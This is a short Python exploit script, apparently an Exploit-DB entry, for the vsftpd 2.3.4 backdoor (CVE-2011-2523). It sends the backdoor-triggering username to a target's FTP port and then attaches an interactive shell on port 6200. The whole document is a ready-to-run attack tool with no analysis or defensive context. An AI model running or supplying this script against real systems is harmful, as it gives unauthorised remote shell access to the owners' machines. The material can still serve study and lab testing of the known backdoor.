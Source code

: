 EXP
---

    # Exploit Title: vsftpd 2.3.4 - Backdoor Command Execution
    # Date: 9-04-2021
    # Exploit Author: HerculesRD
    # Software Link: http://www.linuxfromscratch.org/~thomasp/blfs-book-xsl/server/vsftpd.html
    # Version: vsftpd 2.3.4
    # Tested on: debian
    # CVE : CVE-2011-2523

    #!/usr/bin/python3

    from telnetlib import Telnet
    import argparse
    from signal import signal, SIGINT
    from sys import exit

    def handler(signal_received, frame):
        # Handle any cleanup here
        print('   [+]Exiting...')
        exit(0)

    signal(SIGINT, handler)
    parser=argparse.ArgumentParser()
    parser.add_argument("host", help="input the address of the vulnerable host", type=str)
    args = parser.parse_args()
    host = args.host
    portFTP = 21 #if necessary edit this line

    user="USER nergal:)"
    password="PASS pass"

    tn=Telnet(host, portFTP)
    tn.read_until(b"(vsFTPd 2.3.4)") #if necessary, edit this line
    tn.write(user.encode('ascii') + b"\n")
    tn.read_until(b"password.") #if necessary, edit this line
    tn.write(password.encode('ascii') + b"\n")

    tn2=Telnet(host, 6200)
    print('Success, shell opened')
    print('Send `exit` to quit shell')
    tn2.interact()